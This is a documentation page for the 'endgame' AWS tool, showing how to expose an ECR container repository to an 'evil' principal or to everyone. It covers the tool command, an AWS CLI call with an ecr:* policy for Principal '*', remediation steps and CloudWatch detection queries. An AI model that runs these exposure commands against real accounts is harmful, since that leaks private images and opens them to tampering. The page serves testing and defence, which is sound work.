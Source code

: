 # Elastic Container Registries (ECR)

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

expose --service ecr --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file named `ecr-policy.json` with the following contents:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:*"
            ]
        }
    ]
}
```

Then run the following from the victim account:

```bash
aws ecr set-repository-policy --repository-name test-resource-exposure --policy-text file://ecr-policy.json
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws ecr get-repository-policy \
    --repository-name test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The policy shown below shows a policy that grants access to Principal `*`. If the output contains `*` in Principal, that means the ECR repository is public. If the Principal contains just an account ID, that means it is shared with another account.

```json
{
    "registryId": "111122223333",
    "repositoryName": "test-resource-exposure",
    "policyText": "{\n  \"Version\" : \"2008-10-17\",\n  \"Statement\" : [ {\n    \"Sid\" : \"allow public pull\",\n    \"Effect\" : \"Allow\",\n    \"Principal\" : \"*\",\n    \"Action\" : \"ecr:*\"\n  } ]\n}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Leverage Strong Resource-based Policies**: Follow the resource-based policy recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#leverage-strong-resource-based-policies)
* **Trusted Accounts Only**: Ensure that ECR Repositories are only shared with trusted accounts, and that the trusted accounts truly need access to the ECR Repository.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your ECR Repositories**: Tightly control access to the following IAM actions:
      - [ecr:SetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_SetRepositoryPolicy.html): _Grants permission to apply a repository policy on a specified repository to control access permissions_
      - [ecr:DeleteRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRepositoryPolicy.html): _Grants permission to delete the repository policy from a specified repository_
      - [ecr:GetRepositoryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetRepositoryPolicy.html): _Grants permission to retrieve the repository policy for a specified repository_
      - [ecr:DescribeRepositories](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DescribeRepositories.html): _Grants permission to describe image repositories in a registry_
      - [ecr:PutRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_PutRegistryPolicy.html): _Grants permission to update the registry policy_
      - [ecr:DeleteRegistryPolicy](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_DeleteRegistryPolicy.html): _Grants permission to delete the registry policy_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ecr.amazonaws.com' and (eventName='SetRepositoryPolicy' or eventName='DeleteRepositoryPolicy' 
or eventName='PutRegistryPolicy' or eventName='DeleteRegistryPolicy') 
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ecr.amazonaws.com' and (eventName='SetRepositoryPolicy' and responseElements.policyText like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [set-repository-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/set-repository-policy.html)